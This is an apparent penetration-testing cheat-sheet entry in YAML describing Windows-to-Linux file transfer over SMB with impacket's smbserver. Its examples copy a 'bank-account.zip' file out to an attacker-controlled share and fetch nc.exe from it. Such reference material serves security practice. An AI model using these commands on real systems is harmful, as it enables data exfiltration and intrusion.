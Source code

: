 ```yaml
---
title: |
  File Transfers - Windows to Linux - SMB
description: |
  (Linux) Setup smb share with impacket's smbserver:

  	./smbserver.py test .

  (Windows) Copy to smb share:

  	net view \\<kali-ip>

  	copy <file> \\<kali-ip>\\test
    
  	Ex. copy C:\bank-account.zip \\10.11.0.105\share\
    
  	Ex. copy \\10.11.0.105\share\nc.exe .

command: |
  See commands.
items:
  - Shell
  - Username
  - Password
OS:
  - Windows
  - Linux
attack_types:
  - Enumeration
  - PrivEsc
references:
  - https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration
  - https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/
---
```


